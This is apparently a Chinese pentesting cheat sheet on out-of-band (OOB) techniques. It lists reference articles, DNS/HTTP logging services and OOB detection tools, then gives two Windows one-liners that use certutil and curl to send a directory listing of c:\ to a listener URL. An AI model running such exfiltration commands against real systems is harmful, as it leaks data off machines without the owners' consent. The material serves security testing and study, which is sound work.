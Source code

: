 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://www.freebuf.com/vuls/138838.html)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Gaining persistent access to Burp Suite's Collaborator sessions - a step-by-step guide](https://www.onsecurity.co.uk/blog/gaining-persistent-access-to-burps-collaborator-sessions)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/

**工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具。
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具。
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)

---

# HTTP

**Windows**

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://127.0.0.1:8000/?result=%x" nul
    ```

- curl

    win10 等环境支持 curl
    ```bash
    for /F %x in ('dir /b c:\') do curl http://127.0.0.1:8000/%x
    ```
